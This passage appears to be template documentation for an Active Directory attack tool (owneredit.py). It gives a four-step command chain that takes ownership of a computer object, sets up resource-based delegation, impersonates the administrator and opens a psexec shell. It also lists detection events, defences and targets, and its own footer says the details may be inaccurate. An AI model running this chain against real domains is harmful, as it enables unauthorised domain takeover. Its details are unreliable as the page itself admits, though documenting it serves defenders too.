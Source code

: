 ### Computer Object Takeover
```bash
# Step 1: Take ownership of computer object
python3 owneredit.py domain.com/user:password -action write -target "VICTIM-PC$" -new-owner attacker

# Step 2: Configure RBCD on the computer
python3 rbcd.py domain.com/attacker:password -action write -delegate-from ATTACKER-PC$ -delegate-to "VICTIM-PC$"

# Step 3: Request service ticket and impersonate admin
python3 getST.py domain.com/ATTACKER-PC$:password -spn cifs/VICTIM-PC$ -impersonate administrator

# Step 4: Access the system
export KRB5CCNAME=administrator.ccache
python3 psexec.py -k -no-pass VICTIM-PC$
```

## Prerequisites
- Valid domain credentials with appropriate permissions
- Network access to domain controller (LDAP/LDAPS)
- WriteOwner or GenericAll permissions on target object
- Knowledge of target object identifiers (sAMAccountName, SID, or DN)

## Detection Considerations
- **Event ID 5136**: Directory service object was modified (ownership change)
- **Event ID 4662**: Operation was performed on an object (security descriptor access)
- **LDAP Queries**: Unusual LDAP searches for security descriptors
- **Ownership Changes**: Monitoring changes to object ownership
- **Privilege Escalation Patterns**: Rapid ownership change followed by permission modifications

## Defensive Measures
- **Audit Object Access**: Enable detailed auditing of security descriptor modifications
- **Privileged Object Protection**: Implement AdminSDHolder for critical objects
- **Permission Monitoring**: Regular audits of object ownership and permissions
- **Access Control**: Restrict WriteOwner permissions to necessary accounts only
- **LDAP Signing**: Enable LDAP signing and channel binding
- **Anomaly Detection**: Monitor for unusual ownership change patterns

## Common Attack Targets
- **High-Value User Accounts**: Domain administrators, service accounts
- **Privileged Groups**: Domain Admins, Enterprise Admins, Backup Operators
- **Computer Objects**: Domain controllers, critical servers
- **Service Principal Names**: High-privilege service accounts
- **Group Policy Objects**: For domain-wide persistence

## Related Tools
- [dacledit.py](dacledit.md) - Often used together to modify permissions after ownership change
- [addcomputer.py](addcomputer.md) - Create computer accounts for ownership transfer
- [rbcd.py](rbcd.md) - Configure delegation after computer object takeover
- [GetADUsers.py](GetADUsers.md) - Enumerate potential targets
- [GetADComputers.py](GetADComputers.md) - Find computer objects to target
- [findDelegation.py](findDelegation.md) - Discover delegation relationships for exploitation

---

*Note: This documentation is a template. Please refer to the actual tool's help output and source code for complete and accurate information.*
